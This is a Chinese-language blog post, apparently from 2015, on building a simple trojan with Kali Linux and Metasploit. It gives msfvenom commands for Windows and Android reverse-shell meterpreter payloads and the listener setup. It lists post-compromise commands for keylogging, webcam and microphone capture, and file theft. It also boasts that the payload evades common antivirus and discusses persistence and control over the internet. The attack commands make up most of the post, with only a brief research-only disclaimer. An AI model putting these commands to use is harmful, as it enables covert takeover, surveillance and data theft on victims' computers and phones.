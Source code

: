 ```yaml
---
title: Kali-Metasploit制作简易木马
date: 2015-08-05 12:01:00
category: Linux
tags: 
    - Linux
---
```


相信很多人都有这种感觉,觉得那些会做木马病毒的人非常牛逼,当然会自己完全写出来木马病毒的肯定非常牛逼,但是实际上,大部分人都是在前人的基础上修改,很多则是用工具生成,出于兴趣,研究了一段时间"黑"科技,也实践了一下!

总结了几点简单的工具用法,如果你会用这些工具,你会发现也许一个木马没有你像现在那么难做出来!本文是本着研究的精神,所有攻击行为都是测试,请勿用于非法用途!

测试环境:kali linux windows7 windows 10 Android等操作系统

主要工具:metasploit framework

<!--more-->

关于所用工具,本文不做过多介绍,这里介绍的使用方法也是最基本最简单的用法:

## 1.使用metasploit 工具生存一个木马(windows版本),命令如下:
```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -f exe >demo.exe
```
LHOST=后面的ip地址是你自己的局域网ip,目前本人所有的攻击测试仅在局域网试过,也就是内网,关于外网的使用暂时不太清楚如何进行!

demo.exe为生成的木马文件,把木马文件拷贝到对方电脑上,双击即可运行!据测试,该木马可以过360安全卫士,电脑管家等常用杀毒软件!这还是在没有做任何加密\加壳的情况下.....不过在有些人的电脑上360可以杀出来!可能是版本不同

## 2.打开软件,设置好监听,命令依次如下:
```
use exploit/multi/handler
set payloads windows/meterpreter/reverse_tcp
set LHOST 192.168.1.47
set LPORT 8080
exploit
```

## 3.坐等上钩
此时,只要对方电脑点击运行demo.exe木马文件,这边监听端口就可以收到信息,建立连接!然后可以执行一些入侵指令,对方现在电脑完全在你的掌控之下,常用命令如下:
```
sysinfo     //查看攻击主机的系统信息
kill         //结束进程
ps          //查看进程
reboot      //重启电脑
reg        //修改注册表
shell        //获取shell
shutdown    //关闭电脑
keyscan_start //开启健盘记录功能
keyscan_dump //查看健盘记录信息
keyscan_stop //停止健盘记录
download     //下载文件
upload        //上传文件
uictl enable keyboard　　　//获取键盘鼠标控制权
record_mic　　　　//音频录制
webcam_chat　　　//查看摄像头接口
webcam_list　　　//查看摄像头列表
webcam_stream　 //摄像头视频获取
................
```
## 4.生成Android版本的木马,其实步骤和上面差不多
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -r >demo.apk
```
只要你下载安装到你手机上,你手机基本上也是别人的了,获取联系人\通讯录\定位打开摄像头\照片.......而且经测试,小米手机自带的安全中心对此木马完全没用!

不过,据我暂时了解的知识,距离一个完整的木马还有点距离:

1. 杀毒软件.据我测试,腾讯的电脑管家就是垃圾,扫描不出来我生成的木马,360基本上一扫就出来,经过简单编码加密后,360会提示风险程序,而系统自带的windows defender更是一点点用都没.不过要想真把木马做成免杀还得花点功夫.......

2. 木马持续后门.所谓持续后门就是能让木马开机后自启,经测试,msf自带的2种方法无效.....暂时未找到可行性方法!

3. 外网控制.这是一个大问题,比较难解决,现在的攻击都是基于同一个局域网内!

4. 权限问题.360是个麻烦事,在有些机子上进行操作,比如打开摄像头,360会有提示.....而且木马暂时还没法子终结360的进程,所以蛋疼!

在日常生活中,专门去攻击某些个人的情况很少,很多时候黑客都是采用自动化工具遍地撒网,利用一些公开的漏洞进行攻击!普通人能做的只是让自己别中这些自动化黑客工具的招就行了,如果某些个人或者组织想黑你,真的很简单.............
